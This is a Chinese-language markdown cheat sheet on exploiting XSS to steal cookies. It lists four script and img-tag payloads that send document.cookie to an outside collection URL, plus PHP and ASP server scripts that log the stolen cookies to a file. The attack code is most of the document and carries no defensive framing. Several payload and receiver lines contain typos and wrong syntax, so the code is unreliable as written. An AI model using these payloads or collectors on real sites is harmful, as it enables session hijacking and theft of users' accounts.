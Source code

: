 
&nbsp;

## xss漏洞利用

### 【cookie盗用与利用】

* **cookie获取原理**
  需要在一个存在存储型xss或者反射型xss的网站写入盗取cookie的xss代码
  用户浏览网页就会被盗取cookie
  一般欺骗的是插入xss的网站的cookie
  
* **获取cookie的方法**
  * 方式1：
  ```js
  <script>documnet.location="http://www.test.com/cookie.asp?cookie='+documnet.cookie"
  </script>
  ```
  
  * 方式2：
  ```js
  <img src="http://www.test.com/cookie.asp?cookie='+document.cookie"></img>
  ```

  * 方式3：
  ```js
  <script>
  new Image().src="http://www.test.com/cookie.asp?cookie='+document.cookie" 
  </script>
  ```

  * 方式4：
  ```js
  <script> 
  document.write('<img src="http://www.test.com/cookie.asp?cookie='+document.cookie+'" width=0 height=0 border=0 />'); 
  </script>
  ```

* **接受cookie**
  * php版本：
  ```php
  <?php
  $cookie=$_GET('cookie');
  $log=fopen("cookie.txt","a");
  fwrite($log,$cookie ."\n");
  fclose($log);
  ?>
  ```
  
  * asp版本：
  ```asp
  <%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfiel,8,true,0)
  thisfile.WriteLine(""&msg&"")
  thisfile.close
  set fs=nothing
  %>
  ```
  
